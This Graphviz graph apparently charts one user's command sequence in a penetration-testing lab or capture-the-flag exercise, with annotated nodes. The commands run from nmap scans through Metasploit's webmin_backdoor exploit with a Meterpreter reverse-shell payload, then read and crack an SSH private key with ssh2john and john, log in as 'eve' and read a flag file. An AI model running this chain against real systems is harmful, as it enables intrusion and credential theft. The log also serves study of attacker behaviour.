 // creating graph for user: 92
digraph {
	node [shape=box]
	0 [label="nmap 172.181.1.5 -p- A0 A1 "]
	1 [label="nmap 172.181.1.5 -p- -Pn A0 A1 "]
	2 [label="nmap 172.18.1.5 -p- A0 M0 A1 "]
	3 [label="nmap 172.18.1.5 -p- -A V0 "]
	4 [label="msfconsole A2 M2 "]
	5 [label="search webmin A3 M3 "]
	6 [label="use exploit/unix/webapp/webmin_backdoor A8 M8 "]
	7 [label="show options A5 M5 "]
	8 [label="ip a U"]
	9 [label="set LHOST 10.1.135.83 A6 M6 "]
	10 [label="show options V5 "]
	11 [label="set RHOSTS 172.18.1.5 V6 "]
	12 [label="exploit V8 "]
	13 [label="search web A3 "]
	14 [label="search web_de A3 "]
	15 [label="setg LHOST 10.1.135.83 V6 "]
	16 [label="use exploit/multi/script/web_delivery V8 "]
	17 [label="show optins A5 "]
	18 [label="show otions A5 "]
	19 [label="show options V5 "]
	20 [label="set target linux A6 "]
	21 [label="show options V5 "]
	22 [label="show targets A5 "]
	23 [label="set target  A6 "]
	24 [label="show options V5 "]
	25 [label="show targets A5 "]
	26 [label="set target  A6 "]
	27 [label="set target 6 A6 "]
	28 [label="show options V5 "]
	29 [label="set payload linux/x64/meterpreter/reverse_tcp  A6 "]
	30 [label="show options V5 "]
	31 [label="run V8 "]
	32 [label="use exploit/unix/webapp/webmin_backdoor V8 "]
	33 [label="run V8 "]
	34 [label="set LPORT 4445 A6 "]
	35 [label="run V8 "]
	36 [label="nmap 172.18.1.5/12 -p- V0 "]
	37 [label="sessions 3 U"]
	38 [label="sessions U"]
	39 [label="sessions -u ~ U"]
	40 [label="sessions -u 3 U"]
	41 [label="sessions 3 U"]
	42 [label="nmap 172.18.1.5/24 -p- V0 "]
	43 [label="sessions 4 U"]
	44 [label="sessions U"]
	45 [label="nmap 172.18.1.2 A0 A1 "]
	46 [label="ip a U"]
	47 [label="ip route U"]
	48 [label="sessions 3 U"]
	49 [label="sessions 4 U"]
	50 [label="sessions U"]
	51 [label="nmap 81.2.195.254 A0 A1 "]
	52 [label="curl 81.2.195.254 U"]
	53 [label="ping 10.1.18.22 U"]
	54 [label="nmap 10.1.18.22 A0 A1 "]
	55 [label="nmap 10.1.17.4 A0 A1 "]
	56 [label="cd .ssh A16 "]
	57 [label="ls A10 "]
	58 [label="cat id_rsa A12 M12 A17 "]
	59 [label="john id_rsa A14 "]
	60 [label="ssh2john A14 A16 "]
	61 [label="locate ssh2john A1 A9 A10 A11 A12 A14 A16 A17 "]
	62 [label="cd U"]
	63 [label="python ssh2john.py A13 M13 A14 A16 "]
	64 [label="python ssh2john.py .ssh/id_rsa V13 "]
	65 [label="python ssh2john.py .ssh/id_rsa > eve V13 "]
	66 [label="john eve A14 "]
	67 [label="locate rockyou A1 A9 A10 A11 A12 A17 "]
	68 [label="john eve --wordlist=/usr/share/wordlists/rockyou.txt A14 M14 "]
	69 [label="ls A10 "]
	70 [label="ssh eve@10.1.17.4 A16 M16 "]
	71 [label="chmod 600 .ssh/id_rsa A15 M15 A16 "]
	72 [label="ssh eve@10.1.17.4 V16 "]
	73 [label="ls -la A10 "]
	74 [label="cd top-secret/ U"]
	75 [label="ls A10 "]
	76 [label="cat flag.txt A17 M17 "]
	77 [label="sessions 5 U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	rankdir=LR
}
